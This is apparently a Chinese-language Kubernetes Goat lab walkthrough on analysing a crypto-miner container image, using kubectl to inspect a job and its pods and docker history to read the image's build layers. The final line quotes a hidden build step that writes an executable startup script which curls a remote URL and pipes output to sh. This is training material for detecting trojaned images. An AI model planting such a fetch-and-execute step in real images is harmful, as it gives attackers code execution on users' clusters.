





Analyzing crypto miner container

分析加密挖矿容器\[将挖矿木马映像推送到公共容器注册表\]

 通常可以看到，大多数容器用户从 Docker Hub 等公共容器注册表下载映像。我们已经看到了大量的黑客攻击和妥协，以及攻击者通过上传容器映像来滥用这些漏洞，这些容器映像具有加密矿工来使用集群资源。在此方案中，我们看到一种在公共容器映像中利用这些漏洞的简单且非常常见的方法。

 kubectl get jobs

kubectl get jobs 是 Kubernetes 命令行工具（kubectl）中的一个命令，用于获取当前集群中运行的 Job 对象的信息。在 Kubernetes 中，Job 是一种用于批处理任务的控制器。它用于确保在集群中运行一个或多个 Pod，直到其中的一个 Pod 成功完成其任务。

 确定 Kubernetes 集群中的所有资源/映像，包括作业

  

 获取job信息

 kubectl describe job batch-check-job

- Namespace: Job 所在的命名空间是 "default"。

- Selector: 使用了一个 controller-uid 作为选择器，这是与该 Job 相关联的唯一标识符。

- Labels: Job 自身有两个标签，分别是 "controller-uid" 和 "job-name"。

- Annotations: 包含关于该 Job 的一些注释信息。在这个例子中，显示了由 kubectl 设置的最后应用配置的信息。

- Parallelism: 该 Job 的并行度为 1，这表示同一时间只有一个 Pod 会被创建并运行。

- Completions: Job 的完成数为 1，这表示 Job 中需要成功完成的 Pod 的数量。

- Start Time: 该 Job 的启动时间是 "Thu, 16 Nov 2023 23:38:34 -0800"。

- Completed At: Job 的完成时间是 "Thu, 16 Nov 2023 23:38:49 -0800"。

- Duration: 该 Job 的执行时间为 15 秒。

- Pods Statuses: 提供了与 Pod 状态相关的摘要信息。在这里，显示了 0 个正在运行的 Pod、1 个成功完成的 Pod 和 0 个失败的 Pod。

- Pod Template: 显示了 Job 使用的 Pod 模板，其中包含了一个名为 "batch-check" 的容器，以及容器的镜像信息。

- Events: 为该 Job 相关的事件提供了信息。在这个例子中，显示了一个 "SuccessfulCreate" 事件，说明成功创建了一个 Pod，并提供了 Pod 的名称（"batch-check-job-jpqkb"）。

  

 kubectl get pods --namespace default -l "job-name=batch-check-job" 命令用于获取在 "default" 命名空间中带有标签 "job-name=batch-check-job" 的所有 Pods 的信息。这个命令会列出与特定 Job 关联的所有 Pods。

 获取指定pod信息

 kubectl get pod batch-check-job-xxxx -o yaml

  

获取构建历史\[这是攻击者将挖矿木马映像推送到公共容器注册表中的常见方式\]

 docker history --no-trunc madhuakula/k8s-goat-batch-check

 echo "curl -sSL <https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1> && echo 'id' \| sh " \> /usr/bin/system-startup && chmod +x /usr/bin/system-startup

